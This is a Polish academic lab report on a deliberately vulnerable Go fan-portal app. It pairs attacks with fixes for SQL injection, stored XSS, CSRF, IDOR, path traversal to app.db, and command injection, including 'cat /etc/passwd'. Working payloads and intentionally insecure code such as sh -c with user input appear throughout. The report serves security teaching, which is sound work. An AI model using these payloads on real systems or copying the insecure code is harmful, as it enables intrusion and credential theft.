**Funkcja strony:** `Fanart vault` służy do podglądu załączników wrzucanych do fan postów. Parametr `name` reprezentuje nazwę pliku w katalogu uploadów.

**Poprawne użycie:** użytkownik wybiera plik z listy załączników, np. `miku-setlist.txt`, a aplikacja pokazuje jego zawartość z katalogu `uploads/`.

**Atak w trybie vulnerable:**

1. Użytkownik otwiera vault:

```http
GET /ui/gallery?name=../README.md
```

2. Handler skleja ścieżkę.

**Listing F.1 - kod niezabezpieczony: sklejenie katalogu z parametrem**

```go
path := uploadsDir + "/" + filename
data, err := os.ReadFile(path)
```

3. Sekwencja `../` wychodzi poza katalog `uploads/`.

Warianty pokazowe:

```http
GET /ui/gallery?name=../app.db
GET /ui/gallery?name=../internal/db/db.go
GET /ui/gallery?name=../go.sum
```

Pierwszy payload próbuje pobrać bazę SQLite. Drugi pokazuje wyciek kodu źródłowego, w tym logikę seeda i nazwy tabel. Trzeci ujawnia zależności i wersje bibliotek, co ułatwia dalsze rozpoznanie.



**Ten sam krok w trybie secure:**

1. Użytkownik wpisuje identyczne payloady: `../app.db`, `../internal/db/db.go` i `../go.sum`.
2. Handler normalizuje ścieżkę i sprawdza, czy wynik nadal znajduje się w katalogu uploadów.

**Listing F.2 - kod zabezpieczony: odrzucenie ścieżki spoza uploads**

```go
candidate, ok := safeUploadPath(filename)
if !ok {
    message = "Path traversal blocked"
    isError = true
}
```



**Ocena rezultatu:** funkcja podglądu plików zostaje zachowana, ale serwer ogranicza ją do zamierzonego katalogu.

### G. Command Injection w Stream relay check

**Funkcja strony:** maintainer sprawdza, czy host streamu odpowiada przed wspólnym oglądaniem koncertu lub transmisji.

**Poprawne użycie:** operator wpisuje host, np. `127.0.0.1`, i otrzymuje wynik pojedynczego testu `ping`.

**Atak w trybie vulnerable:**

1. Użytkownik otwiera:

```http
GET /ui/stream-check?host=127.0.0.1%20%26%26%20whoami
```

2. Handler wykonuje:

**Listing G.1 - kod niezabezpieczony: wykonanie polecenia przez `sh -c`**

```go
cmd := exec.Command("sh", "-c", "ping -c1 "+host)
```

3. `&& whoami` staje się drugą komendą powłoki.

Bardziej efektowny payload robi mini-rozpoznanie hosta w jednym żądaniu:

```http
GET /ui/stream-check?host=127.0.0.1%20;%20whoami%20;%20uname%20-a
```

W trybie vulnerable wynik diagnostyki streamu zaczyna mieszać normalny `ping` z wynikiem poleceń systemowych. To dobrze pokazuje, dlaczego `sh -c` z inputem użytkownika jest krytycznym błędem.



**Ten sam krok w trybie secure:**

1. Ten sam input trafia do tej samej funkcji.
2. Walidator blokuje metaznaki.
3. Poprawny host jest wykonywany bez shella.

**Listing G.2 - kod zabezpieczony: walidacja i wykonanie bez shella**

```go
if err := validatePingHost(host); err != nil {
    message = "Command injection blocked"
    isError = true
}
out, err := exec.CommandContext(ctx, "ping", "-c1", host).CombinedOutput()
```



**Ocena rezultatu:** poprawka ogranicza zarówno wejście, jak i sposób wykonania komendy. Sama walidacja bez usunięcia `sh -c` byłaby słabsza.

### H. Broken Authentication w logowaniu użytkownika

**Funkcja strony:** `/ui/login` jest normalnym formularzem logowania do konta.

**Poprawne użycie:** użytkownik podaje istniejący login i prawidłowe hasło. Aplikacja ustawia cookie sesyjne i pozwala korzystać z profilu, tworzenia postów oraz moderacji zgodnie z rolą.

**Atak w trybie vulnerable:**

1. Atakujący zna istniejący login, np. `admin`.
2. Wpisuje dowolne hasło:

```text
username=admin
password=anything
```

3. Serwer akceptuje użytkownika, bo sprawdza tylko istnienie loginu.

**Listing H.1 - kod niezabezpieczony: sprawdzenie tylko istnienia konta**

```go
exists, err := h.svc.UserExists(username)
if err != nil || !exists {
    return "Invalid credentials", true, http.StatusUnauthorized
}
return fmt.Sprintf("Login successful for %s", username), false, http.StatusOK
```

**Ten sam krok w trybie secure:**

1. Ten sam login i błędne hasło są wysłane do `/ui/login`.
2. Serwer pobiera hash bcrypt i porównuje hasło.
3. Logowanie jest odrzucone.

**Listing H.2 - kod zabezpieczony: walidacja hasła przez bcrypt**

```go
valid, err := h.svc.ValidateUserCredentials(username, password)
if err != nil {
	return "Database error", true, http.StatusInternalServerError
}
if !valid {
	h.svc.RecordLoginFailure(username)
	return "Invalid username or password", true, http.StatusUnauthorized
}
```

**Ocena rezultatu:** logowanie jest rzeczywistym mechanizmem sesji używanym później przez profil, moderację i tworzenie postów. Wersja secure weryfikuje sekret użytkownika i ogranicza próby logowania.

## Scenariusze złożone do weryfikacji

Poniższe scenariusze pokazują efekt łańcuchowy: jeden błąd daje rozpoznanie, drugi umożliwia akcję, a tryb secure przerywa łańcuch na kilku poziomach.

### Łańcuch 1 - SQLi jako panel rozpoznania bazy

1. `Miku` - normalne użycie wyszukiwarki.
2. `zz' ORDER BY 8 --` - rozpoznanie liczby kolumn przez błąd SQL.
3. `sqlite_master` - odczyt nazw tabel i instrukcji `CREATE TABLE`.
4. `[intel] database map` - jeden wiersz z liczbą użytkowników i listą tabel.
5. `[fingerprint] SQLite ...` - identyfikacja silnika i wersji bazy.
6. `[pivot] admin owns drafts` - powiązanie konta administratora z ukrytymi draftami.

**Vulnerable:** zwykłe pole `Library query` zamienia się w narzędzie rekonesansu bazy danych.
**Secure:** każdy krok jest zwykłym tekstem w `LIKE`; brak błędu SQL, brak rekordów technicznych, brak danych spoza `published = 1`.

### Łańcuch 2 - słabe logowanie + IDOR

1. Atakujący loguje się jako `user1` z dowolnym hasłem.
2. Przechodzi do `/ui/moderation`.
3. Wysyła `POST /ui/posts/delete/1`, czyli usuwa cudzy wpis.

**Vulnerable:** hasło jest ignorowane, a usuwanie sprawdza tylko fakt zalogowania.
**Secure:** bcrypt odrzuca złe hasło, a nawet po prawidłowym logowaniu `user1` nie może usuwać wpisów admina.

### Łańcuch 3 - Stored XSS jako przejęcie interfejsu

1. Atakujący dodaje komentarz z payloadem `insertAdjacentHTML`.
2. Każdy czytelnik wpisu widzi fałszywą nakładkę "Session expired".
3. Ten sam mechanizm mógłby podmieniać linki, formularze albo treści widoku.

**Vulnerable:** komentarz jest raw HTML i wykonuje kod w przeglądarce ofiary.
**Secure:** event handler jest usuwany, a HTML jest escapowany.

### Łańcuch 4 - Path Traversal + rozpoznanie kodu

1. `../go.mod` ujawnia nazwę modułu i stos technologiczny.
2. `../internal/db/db.go` ujawnia schemat, seedy i przykładowe konta.
3. `../app.db` próbuje pobrać rzeczywistą bazę SQLite.

**Vulnerable:** vault plików działa jak czytnik plików projektu.
**Secure:** normalizacja ścieżki i kontrola katalogu blokują wyjście poza `uploads/`.

### Łańcuch 5 - Command Injection jako mini-rekonesans systemu

1. Atakujący wpisuje `127.0.0.1 ; whoami ; uname -a`.
2. Wynik `ping` miesza się z wynikiem poleceń systemowych.
3. W kolejnym kroku można byłoby odczytywać pliki lub zmienne środowiskowe procesu.

**Vulnerable:** input trafia do `sh -c`, więc metaznaki powłoki są wykonywane.
**Secure:** walidator odrzuca metaznaki, a `exec.CommandContext` nie używa shella.

### 1. SQL Injection w Vocaloid library

**Funkcja:** `/ui/library`
**Cel użytkownika:** wyszukanie postów o Miku, utworach, tagach i producentach.
**Payload:**

Najpierw sonda logiczna:

```sql
zz' OR EXISTS(SELECT 1 FROM users WHERE username='admin' AND substr(password_hash,1,1)='a') --
```

Następnie właściwa ekstrakcja danych:

```sql
zz' UNION SELECT id, '[user] ' || username,
    'role=' || role || ' email=' || email || ' secret=' || password_hash,
    1, username, '', ''
FROM users --
```

Wariant pokazowy "database map":

```sql
zz' UNION SELECT 9000, '[intel] database map',
    'users=' || (SELECT COUNT(*) FROM users) ||
    ' tables=' || (SELECT group_concat(name, ', ') FROM sqlite_master WHERE type='table'),
    1, 'sqli-bot', '', '' --
```

**Metoda wywołania:**

```http
GET /ui/library?q=zz' UNION SELECT id, '[user] ' || username, 'role=' || role || ' email=' || email || ' secret=' || password_hash, 1, username, '', '' FROM users --
```

**Wynik w trybie vulnerable:** pierwsza sonda działa jak test warunku zależnego od danych w tabeli `users`. Potem zapytanie SQL zmienia strukturę przez `UNION SELECT`. W zwykłych wynikach wyszukiwarki pojawiają się rekordy z tabeli `users`; tytuł wyniku może zawierać `[user] admin`, a treść email, rolę i wartość `password_hash`. Osobny payload na `sqlite_master` ujawnia strukturę tabel, payload `database map` buduje podsumowanie bazy, a payload na `blog WHERE published=0` ujawnia ukryte drafty.

**Wynik w trybie secure:** input jest wartością parametru `LIKE`, a nie fragmentem składni SQL. Payload jest traktowany jako tekst.

**Istota poprawki:** używać parametrów `?` i nie doklejać inputu do zapytania.

### 2. Stored XSS w komentarzach fan postów

**Funkcja:** komentarze pod wpisami.
**Payload:**

```html
<script>alert(document.cookie)</script>
```

Wariant efektowny:

```html
<h1>Session expired</h1><p>Fake re-login overlay injected from a comment.</p></div>')">
```

**Metoda wywołania:**

```http
POST /ui/posts/view/1/comments
```

**Wynik w trybie vulnerable:** komentarz jest zapisany i renderowany jako HTML. Przeglądarka wykonuje JavaScript przy wejściu na stronę wpisu; w wariancie overlay cała strona zostaje przykryta fałszywym komunikatem.

**Wynik w trybie secure:** komentarz jest escapowany i widoczny jako tekst.

**Ryzyko praktyczne:** kradzież sesji, wykonanie akcji w imieniu użytkownika, podmiana treści strony.

### 3. Broken Authentication w logowaniu

**Funkcja:** `/ui/login`
**Payload:**

```text
username=admin
password=anything
```

**Wynik w trybie vulnerable:** istniejący login wystarcza, hasło jest ignorowane.

**Wynik w trybie secure:** hasło jest porównywane z hashem bcrypt.

**Istota poprawki:** walidować sekret użytkownika, nie tylko istnienie konta.

### 4. IDOR w kolejce moderacyjnej

**Funkcja:** `/ui/moderation`
**Metoda wywołania:**

```http
POST /ui/posts/delete/1
```

**Scenariusz:** użytkownik `user1` usuwa post admina, zmieniając ID w żądaniu albo klikając przycisk widoczny przy cudzym poście.

**Wynik w trybie vulnerable:** usunięcie przechodzi, bo handler sprawdza tylko logowanie.

**Wynik w trybie secure:** handler sprawdza, czy użytkownik jest autorem posta albo administratorem.

### 5. CSRF w ustawieniach profilu

**Funkcja:** `/ui/profile`
**Payload PoC:**

```html
<form method="POST" action="http://localhost:8080/ui/profile">
  <input name="new_email" value="hacked@evil.com">
</form>
<script>document.forms[0].submit()</script>
```

**Wynik w trybie vulnerable:** email powiadomień zmienia się, bo przeglądarka automatycznie dołącza cookie sesyjne.

**Wynik w trybie secure:** ten sam endpoint `/ui/profile` wymaga tokena zgodnego z cookie. Trasa `/ui/profile-secure` została pozostawiona tylko jako alias kompatybilności.

### 6. Sensitive Data Exposure w member directory

**Funkcja:** `/ui/members`
**Metoda wywołania:** wejście w katalog członków albo odczyt bazy przez SQLi/LFI.

**Wynik w trybie vulnerable:** kolumna `password_hash` zawiera jawne hasła.

**Wynik w trybie secure:** kolumna zawiera hashe bcrypt z solą.

**Konsekwencja:** jeśli użytkownicy ponownie używają haseł, wyciek jawnych haseł prowadzi do przejęcia kont również poza aplikacją.

### 7. Path Traversal w fanart vault

**Funkcja:** `/ui/gallery`
**Payload:**

```text
../README.md
../app.db
../go.sum
```

**Metoda wywołania:**

```http
GET /ui/gallery?name=../README.md
```

**Wynik w trybie vulnerable:** aplikacja czyta plik spoza katalogu uploadów.

**Wynik w trybie secure:** ścieżka jest normalizowana i musi pozostać wewnątrz katalogu `uploads/`.

### 8. Command Injection w stream relay check

**Funkcja:** `/ui/stream-check`
**Payload:**

```text
127.0.0.1 && whoami
x | id
8.8.8.8 ; cat /etc/passwd
```

**Metoda wywołania:**

```http
GET /ui/stream-check?host=127.0.0.1%20%26%26%20whoami
```

**Wynik w trybie vulnerable:** po `ping` wykonywana jest dodatkowa komenda systemowa.

**Wynik w trybie secure:** regex odrzuca metaznaki, a `exec.Command("ping", "-c1", host)` nie używa shella.

## Fragmenty kodu implementacji

### Routing feature-first

```go
router.GET("/ui/library", h.PageSearch())
router.GET("/ui/profile", h.ProfileSettings())
router.POST("/ui/profile", h.ProfileSettings())
router.GET("/ui/profile-secure", h.CsrfSecureForm())
router.POST("/ui/profile-secure", h.CsrfSecureForm())
router.GET("/ui/moderation", h.PageIDOR())
router.GET("/ui/members", h.PageDBExpose())
router.GET("/ui/gallery", h.PagePathTraversal())
router.GET("/ui/stream-check", h.PageCmdInjection())
```

### Nawigacja aplikacji

```templ
<a href="/ui/library" title="Search Vocaloid posts and tags">
  <span>🔎</span>
  <span>Library</span>
</a>
<a href="/ui/gallery" title="Fanart vault">
  <span>📂</span>
  <span>Fanart vault</span>
</a>
<a href="/ui/stream-check" title="Stream relay health check">
  <span>💻</span>
  <span>Stream check</span>
</a>
```

### Fanart vault jako realna funkcja

```templ
@Layout("Fanart vault", securityEnabled, loggedIn, username) {
  <h1>📂 Fanart vault preview</h1>
  <form method="get" action="/ui/gallery">
    <input id="pt-name" name="name" placeholder="fanart-miku.png or ../app.db" />
  </form>
}
```

### Stream check jako realna funkcja

```templ
@Layout("Stream relay check", securityEnabled, loggedIn, username) {
  <h1>💻 Stream relay health check</h1>
  <form method="get" action="/ui/stream-check">
    <input id="cmd-host" name="host" placeholder="8.8.8.8 ; cat /etc/passwd" />
  </form>
}
```

## Diagramy wygenerowane z Mermaid

### Przepływ żądania



### Model przełącznika bezpieczeństwa



### Drzewo ataku



## Załącznik A: pełne karty testowe funkcji

Ten załącznik opisuje testy manualne. Każda karta ma ten sam układ: warunki wejściowe, kroki w aplikacji, żądanie techniczne, oczekiwany wynik podatny, oczekiwany wynik secure oraz kryterium zaliczenia.

### Karta A1 - Vocaloid library search / SQL Injection

**Warunki wejściowe:** aplikacja uruchomiona w trybie vulnerable, baza po seedzie, użytkownik może być niezalogowany. Funkcja jest publiczna, bo wyszukiwarka biblioteki nie wymaga konta.

**Kroki manualne:**

1. Otworzyć `http://localhost:8080/ui/library`.
2. Wpisać zwykłe słowo `Miku` i pokazać normalny wynik wyszukiwarki.
3. Wpisać sondę logiczną zależną od tabeli `users`:

```sql
zz' OR EXISTS(SELECT 1 FROM users WHERE username='admin' AND substr(password_hash,1,1)='a') --
```

4. Pokazać, że wynik zmienia się nie przez dopasowanie tekstu, tylko przez prawdziwy warunek SQL wykonany na innej tabeli.
5. Wpisać payload rozpoznający schemat:

```sql
zz' UNION SELECT 1, name, sql, 1, '', '', '' FROM sqlite_master WHERE type='table' --
```

6. Pokazać, że wyniki zawierają nazwy tabel i SQL tworzący strukturę bazy.
7. Wpisać payload wyciągający użytkowników:

```sql
zz' UNION SELECT id, '[user] ' || username,
    'role=' || role || ' email=' || email || ' secret=' || password_hash,
    1, username, '', ''
FROM users --
```

8. Pokazać, że wyniki wyszukiwarki zawierają rekordy kont, mimo że użytkownik korzystał tylko z pola `Library query`.
9. Wpisać payload wyciągający ukryte drafty:

```sql
zz' UNION SELECT id, '[draft] ' || title, post_content, published, author_username, '', ''
FROM blog WHERE published=0 --
```

10. Przełączyć aplikację w tryb secure.
11. Powtórzyć sondę logiczną oraz payloady `sqlite_master`, `users` i `draft`.
12. Porównać wynik.

**Żądanie techniczne:**

```http
GET /ui/library?q=zz' UNION SELECT id, '[user] ' || username, 'role=' || role || ' email=' || email || ' secret=' || password_hash, 1, username, '', '' FROM users --
```

**Wynik podatny:** wyszukiwarka działa jak nieautoryzowany panel odczytu bazy. Atakujący najpierw potwierdza wykonanie warunku `EXISTS(...)`, potem poznaje strukturę tabel przez `sqlite_master`, wyciąga konta przez `UNION SELECT FROM users` i ujawnia nieopublikowane wpisy przez `blog WHERE published=0`.

**Wynik secure:** payload nie zmienia logiki zapytania. Jest traktowany jako zwykły tekst w parametrze `LIKE`; nie pojawiają się ani tabele, ani użytkownicy, ani drafty.

**Kryterium zaliczenia:** ta sama funkcja `/ui/library` działa w obu trybach, ale w secure nie dochodzi do wykonania wstrzykniętej składni SQL.

### Karta A2 - komentarze fan postów / Stored XSS

**Warunki wejściowe:** dostępny post `Miku Expo setlist notes`, użytkownik może wysłać komentarz. Do wizualnego testu można użyć nieszkodliwego HTML, np. nagłówka z tekstem `XSS-PWNED`.

**Kroki manualne:**

1. Otworzyć `/ui/posts/view/1`.
2. W komentarzu wpisać:

```html
<h2 style="color:#be123c">XSS-PWNED</h2>
```

3. Wysłać komentarz.
4. W vulnerable sprawdzić, czy napis renderuje się jako HTML.
5. Przełączyć secure.
6. Wysłać ten sam komentarz.
7. Sprawdzić, czy tagi są widoczne jako tekst albo zostały zneutralizowane.

**Żądanie techniczne:**

```http
POST /ui/posts/view/1/comments
Content-Type: application/x-www-form-urlencoded

body=<h2 style="color:#be123c">XSS-PWNED</h2>
```

**Wynik podatny:** przeglądarka interpretuje treść komentarza jako HTML. Dla payloadu JavaScript oznacza to wykonanie skryptu w kontekście domeny aplikacji.

**Wynik secure:** HTML jest escapowany i nie wykonuje się jako kod.

**Kryterium zaliczenia:** zabezpieczenie działa w realnym wątku komentarzy, a nie na osobnej stronie pokazowej.

### Karta A3 - login / Broken Authentication

**Warunki wejściowe:** istnieje konto `admin`. W trybie vulnerable hasło jest zapisane jawnie, ale logika logowania ignoruje wartość hasła dla istniejącego użytkownika.

**Kroki manualne:**

1. Otworzyć `/ui/login`.
2. Wpisać `admin` jako login.
3. Wpisać `anything` jako hasło.
4. Zatwierdzić formularz.
5. Sprawdzić, czy nagłówek pokazuje zalogowanego użytkownika.
6. Przełączyć secure.
7. Powtórzyć ten sam login i błędne hasło.
8. Sprawdzić, czy aplikacja odrzuca logowanie.

**Żądanie techniczne:**

```http
POST /ui/login
Content-Type: application/x-www-form-urlencoded

username=admin&password=anything
```

**Wynik podatny:** konto zostaje zalogowane mimo błędnego hasła.

**Wynik secure:** hasło jest porównywane z bcryptem, a błędna próba jest odrzucana.

**Kryterium zaliczenia:** secure blokuje przejęcie konta przez znajomość samego loginu.

### Karta A4 - profile settings / CSRF

**Warunki wejściowe:** użytkownik `admin` jest zalogowany. Funkcja profilu jest dostępna pod `/ui/profile`. Ta sama ścieżka działa podatnie albo bezpiecznie w zależności od trybu.

**Kroki manualne:**

1. Zalogować się jako `admin`.
2. Otworzyć osobny plik HTML lub stronę z formularzem:

```html
<form method="POST" action="http://localhost:8080/ui/profile">
  <input name="new_email" value="hacked@evil.com">
</form>
<script>document.forms[0].submit()</script>
```

3. W vulnerable sprawdzić, czy email w profilu zmienił się na `hacked@evil.com`.
4. Przełączyć secure.
5. Wykonać ten sam atak.
6. Sprawdzić, czy pojawia się komunikat `CSRF token validation failed`.
7. Wypełnić normalny formularz profilu, który posiada token, i potwierdzić, że legalna operacja nadal działa.

**Żądanie techniczne:**

```http
POST /ui/profile
Cookie: bai_auth_user=...

new_email=hacked@evil.com
```

**Wynik podatny:** email zmienia się bez intencji użytkownika.

**Wynik secure:** brak tokena powoduje HTTP 403, a email zostaje bez zmian.

**Kryterium zaliczenia:** endpoint `/ui/profile` jest jedną funkcją, a nie dwoma oddzielnymi ścieżkami testowymi.

### Karta A5 - moderation queue / IDOR

**Warunki wejściowe:** istnieje post admina o ID 1 oraz konto zwykłego użytkownika `user1`.

**Kroki manualne:**

1. Zalogować się jako `user1`.
2. Otworzyć `/ui/moderation` lub przygotować ręczne żądanie POST.
3. Spróbować usunąć post admina:

```http
POST /ui/posts/delete/1
Cookie: bai_auth_user=user1
```

4. W vulnerable sprawdzić, czy post znika lub pojawia się komunikat `Post deleted`.
5. Przełączyć secure.
6. Powtórzyć ten sam POST.
7. Sprawdzić komunikat `You can delete only your own posts`.

**Wynik podatny:** dowolny zalogowany użytkownik może usunąć cudzy wpis.

**Wynik secure:** serwer wymusza właściciela zasobu albo rolę admina.

**Kryterium zaliczenia:** decyzja jest po stronie serwera. UI może pokazywać lub ukrywać przyciski, ale bezpieczeństwo nie zależy od samego widoku.

### Karta A6 - member directory / Sensitive Data Exposure

**Warunki wejściowe:** aplikacja uruchomiona najpierw w vulnerable, potem w secure. Widok `Members` pokazuje stan danych kont.

**Kroki manualne:**

1. Otworzyć `/ui/members`.
2. W vulnerable sprawdzić kolumnę `password_hash`.
3. Zanotować, czy widoczne są wartości typu `admin`, `user1pass`.
4. Przełączyć secure albo uruchomić aplikację z `SECURITY_ENABLED=true`.
5. Otworzyć ten sam widok.
6. Sprawdzić, czy kolumna zawiera hashe bcrypt zaczynające się od `$2`.

**Wynik podatny:** baza przechowuje hasła jawne.

**Wynik secure:** baza przechowuje hashe bcrypt.

**Kryterium zaliczenia:** nawet jeśli atakujący pozyska `app.db`, nie dostaje bezpośrednio haseł użytkowników.

### Karta A7 - fanart vault / Path Traversal

**Warunki wejściowe:** funkcja vault pozwala podejrzeć plik z katalogu uploadów. Test używa nazwy pliku sterowanej parametrem `name`.

**Kroki manualne:**

1. Otworzyć `/ui/gallery`.
2. Wpisać payload:

```text
../README.md
```

3. W vulnerable sprawdzić, czy aplikacja wyświetla treść pliku spoza `uploads/`.
4. Przełączyć secure.
5. Powtórzyć ten sam payload.
6. Sprawdzić komunikat blokady traversal.

**Żądanie techniczne:**

```http
GET /ui/gallery?name=../README.md
```

**Wynik podatny:** odczyt pliku spoza katalogu uploadów.

**Wynik secure:** ścieżka jest odrzucona, bo po normalizacji wychodzi poza katalog bazowy.

**Kryterium zaliczenia:** funkcja podglądu plików nadal działa dla poprawnych uploadów, ale nie dla ścieżek z `../`.

### Karta A8 - stream relay check / Command Injection

**Warunki wejściowe:** funkcja `Stream check` przyjmuje host i wykonuje diagnostykę `ping`.

**Kroki manualne:**

1. Otworzyć `/ui/stream-check`.
2. Wpisać:

```text
127.0.0.1 && whoami
```

3. W vulnerable sprawdzić, czy w output pojawia się wynik dodatkowej komendy.
4. Przełączyć secure.
5. Wpisać ten sam payload.
6. Sprawdzić, czy input jest odrzucony przed wykonaniem komendy.

**Żądanie techniczne:**

```http
GET /ui/stream-check?host=127.0.0.1%20%26%26%20whoami
```

**Wynik podatny:** powłoka wykonuje dodatkowy fragment po `&&`.

**Wynik secure:** walidator odrzuca metaznaki, a poprawne hosty są uruchamiane przez `exec.Command` bez `sh -c`.

**Kryterium zaliczenia:** zabezpieczenie nie tylko filtruje input, ale usuwa klasę błędu przez rezygnację z powłoki.

## Załącznik B: mapowanie zmian w plikach kodu

`main.go`
Odpowiedzialność: routing HTTP. Dodano funkcjonalne aliasy `/ui/library`, `/ui/profile`, `/ui/moderation`, `/ui/members`, `/ui/gallery` i `/ui/stream-check`. Najważniejsza zmiana dotyczy profilu: `/ui/profile` prowadzi do `ProfileSettings()`, a nie do stale podatnej wersji formularza.

`internal/handlers/handlers.go`
Odpowiedzialność: logika endpointów. Dodano `ProfileSettings()`, które przełącza `/ui/profile` między zachowaniem podatnym i secure na podstawie aktualnego trybu. Dzięki temu CSRF jest testowany na tej samej funkcji profilu.

`internal/views/pages.templ`
Odpowiedzialność: widoki HTML. Zmieniono UI na MikuMiku Fan Hub i opisano podatności jako funkcje aplikacji. Formularz profilu pokazuje token tylko w trybie secure, ale nadal wysyła dane na `/ui/profile`.

`internal/views/pages_templ.go`
Odpowiedzialność: kod generowany. Plik został wygenerowany automatycznie przez Templ po zmianie widoków. Nie był edytowany ręcznie.

`internal/db/db.go`
Odpowiedzialność: migracja i dane startowe. Seed danych został dopasowany do narracji fanowskiego portalu Vocaloid/Miku.

`main_integration_test.go`
Odpowiedzialność: testy integracyjne. Dodano test potwierdzający, że `/ui/profile` w trybie vulnerable przyjmuje sfałszowany POST bez tokena, a w trybie secure ten sam POST jest odrzucany.

`docs/Sprawozdanie_BAI_Funkcjonalnosci.md`
Odpowiedzialność: raport. Rozbudowano opis ataków o przebieg, screenshoty, fragmenty kodu, wynik podatny oraz wynik secure.

## Załącznik C: checklista weryfikacji na żywo

1. Uruchomić aplikację w trybie vulnerable.
2. Pokazać nagłówek `MikuMiku Fan Hub`, aby było jasne, że to aplikacja funkcjonalna.
3. Otworzyć `Security map` i wyjaśnić, że jest to mapa przejścia przez funkcje.
4. Dla SQLi użyć `Library`, nie endpointu API.
5. Dla XSS użyć komentarza pod postem.
6. Dla CSRF użyć właściwej funkcji profilu: `/ui/profile`.
7. Dla IDOR użyć zwykłego usuwania wpisu przez `/ui/posts/delete/:id`.
8. Dla Path Traversal użyć `Fanart vault`.
9. Dla Command Injection użyć `Stream check`.
10. Po każdym ataku przełączyć secure i powtórzyć ten sam payload.
11. Pokazać, że funkcja nadal istnieje, tylko input jest kontrolowany.
12. Na końcu uruchomić testy integracyjne albo pokazać wynik `PASS`.

## Załącznik D: najważniejsze różnice vulnerable vs secure

`SQL`
Vulnerable: konkatenacja stringów. Secure: parametry `?`.

`XSS`
Vulnerable: `templ.Raw` dla komentarzy. Secure: escaping HTML.

`Login`
Vulnerable: istnienie loginu wystarcza. Secure: bcrypt i ograniczenie prób.

`IDOR`
Vulnerable: tylko sprawdzenie logowania. Secure: właściciel zasobu albo admin.

`CSRF`
Vulnerable: brak tokena. Secure: token w formularzu i cookie.

`Hasła`
Vulnerable: plaintext. Secure: bcrypt.

`Pliki`
Vulnerable: `uploads + "/" + name`. Secure: normalizacja i kontrola katalogu.

`Komendy`
Vulnerable: `sh -c` z inputem użytkownika. Secure: regex oraz `exec.Command` bez shella.

## Załącznik E: argumentacja inżynierska

Najważniejszą wartością projektu nie jest sama lista podatności, tylko porównanie decyzji implementacyjnych. Każdy błąd wynika z konkretnego uproszczenia:

- SQL Injection wynika z traktowania tekstu użytkownika jako fragmentu języka SQL.
- Stored XSS wynika z zaufania do treści użytkownika przy renderowaniu HTML.
- Broken Authentication wynika z pomylenia identyfikacji użytkownika z uwierzytelnieniem.
- IDOR wynika z braku autoryzacji zasobu po stronie serwera.
- CSRF wynika z założenia, że obecność cookie oznacza intencję użytkownika.
- Sensitive Data Exposure wynika z przechowywania sekretu w formie możliwej do bezpośredniego odczytu.
- Path Traversal wynika z zaufania do ścieżki podanej przez użytkownika.
- Command Injection wynika z przekazania inputu do interpretera powłoki.

Wersja secure nie usuwa funkcji, tylko zmienia granice zaufania. Dobry system nie blokuje użytkownikowi normalnych operacji, ale waliduje i interpretuje dane w kontrolowany sposób.

## Załącznik F: macierz ryzyka dla funkcji aplikacji

Poniższa macierz pokazuje ryzyko nie jako listę laboratoryjnych podatności, ale jako ryzyko wynikające z funkcji udostępnionych użytkownikowi portalu. Taki opis łączy lukę z konkretną decyzją projektową, wpływem biznesowym oraz testem, który można powtórzyć.

`Vocaloid library / SQL Injection`
Prawdopodobieństwo: 5. Wpływ: 5. Ryzyko: 25.

`Fan comments / Stored XSS`
Prawdopodobieństwo: 4. Wpływ: 5. Ryzyko: 20.

`Login / Broken Authentication`
Prawdopodobieństwo: 4. Wpływ: 5. Ryzyko: 20.

`Profile settings / CSRF`
Prawdopodobieństwo: 4. Wpływ: 4. Ryzyko: 16.

`Moderation queue / IDOR`
Prawdopodobieństwo: 4. Wpływ: 4. Ryzyko: 16.

`Member directory / Sensitive Data Exposure`
Prawdopodobieństwo: 3. Wpływ: 5. Ryzyko: 15.

`Fanart vault / Path Traversal`
Prawdopodobieństwo: 3. Wpływ: 5. Ryzyko: 15.

`Stream check / Command Injection`
Prawdopodobieństwo: 3. Wpływ: 5. Ryzyko: 15.

Skala 1-5 jest celowo prosta. W projekcie akademickim ważniejsza jest powtarzalność oceny niż pełna formalizacja jak w CVSS. Najwyżej oceniono SQL Injection, ponieważ publiczne pole wyszukiwania ma niską barierę wejścia i może prowadzić do szerokiego naruszenia poufności oraz integralności danych.

Uzasadnienie ocen:

- `Vocaloid library`: pole wyszukiwania jest publiczne, więc SQLi ma bardzo niski próg wykonania.
- `Fan comments`: komentarz jest zapisywany i później wyświetlany innym użytkownikom.
- `Login`: znajomość loginu w trybie vulnerable wystarcza do przejęcia sesji.
- `Profile settings`: CSRF można wykonać przez obcą stronę, jeśli ofiara jest zalogowana.
- `Moderation queue`: ID w URL pozwala celować w cudzy zasób.
- `Member directory`: wyciek bazy w trybie vulnerable oznacza wyciek haseł jawnych.
- `Fanart vault`: parametr pliku może wyjść poza katalog uploadów.
- `Stream check`: input trafiający do powłoki pozwala dopisać dodatkowe polecenie.

### Interpretacja macierzy

Wersja vulnerable pokazuje typowy błąd: funkcja działa szybko, ale bez kontroli granic zaufania. Wersja secure nie zmienia celu funkcji. Zmienione zostają tylko reguły interpretacji danych:

- zapytanie użytkownika jest danymi, nie kodem SQL;
- komentarz użytkownika jest tekstem, nie HTML-em aplikacji;
- ID w URL jest wskazówką, nie dowodem uprawnienia;
- cookie sesyjne dowodzi zalogowania, ale nie dowodzi intencji wykonania akcji;
- nazwa pliku jest nazwą logiczną, nie dowolną ścieżką systemową;
- host diagnostyczny jest argumentem programu, nie fragmentem komendy powłoki.

## Załącznik G: kryteria akceptacji po poprawkach

Poniższe kryteria można potraktować jako checklistę odbioru projektu. Każdy punkt jest sformułowany tak, aby dało się go zweryfikować ręcznie lub testem integracyjnym.

| ID | Funkcja | Kryterium vulnerable | Kryterium secure | Status |
|---|---|---|---|---|
| AC-01 | Library search | Payload SQLi zwraca dane niezgodne z normalnym wyszukiwaniem. | Ten sam payload jest traktowany jak zwykły tekst. | Spełnione |
| AC-02 | Fan comments | Skrypt zapisany w komentarzu renderuje się jako HTML. | Skrypt jest wyświetlany jako tekst. | Spełnione |
| AC-03 | Login | Sam login może utworzyć sesję użytkownika. | Hasło jest sprawdzane przez bcrypt. | Spełnione |
| AC-04 | Profile settings | Sfałszowany POST bez tokena zmienia email. | Ten sam POST bez tokena zwraca 403. | Spełnione |
| AC-05 | Moderation | Użytkownik może wskazać cudzy post po ID. | Serwer sprawdza właściciela albo rolę admina. | Spełnione |
| AC-06 | Members | Widoczne są hasła jawne z seeda vulnerable. | Widoczne są hashe bcrypt. | Spełnione |
| AC-07 | Fanart vault | `../README.md` może zostać odczytany. | Ścieżka z `../` jest blokowana. | Spełnione |
